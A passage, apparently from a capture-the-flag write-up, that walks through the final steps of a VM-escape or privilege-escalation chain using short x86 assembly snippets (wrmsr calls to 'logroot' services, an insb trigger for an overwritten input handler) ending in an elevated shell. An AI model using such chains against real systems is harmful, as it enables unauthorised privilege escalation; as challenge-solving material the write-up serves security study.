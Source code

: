 To execute loc_1ED6 in logroot service 0x315, the service should be called as follows:

```
mov rax, 0x0
mov ecx, 0x315
mov rdx, rax
shr rdx, 0x20
wrmsr
```


Now insb can be executed, so the overwritten input handler will be called on the logroot side.

```
mov rcx, 0x1
mov rdx, 0x29a
mov rdi, rsp
insb
```


Finally, on the logroot side, qword_209058 has to be set to 1 this will be done using logroot service 0x6f.

```
mov eax, 0x1
xor edx, edx
mov ecx, 0x6f
wrmsr
```

Now after vm execution is finished logroot should start elevated shell.

![](imgs/final.png)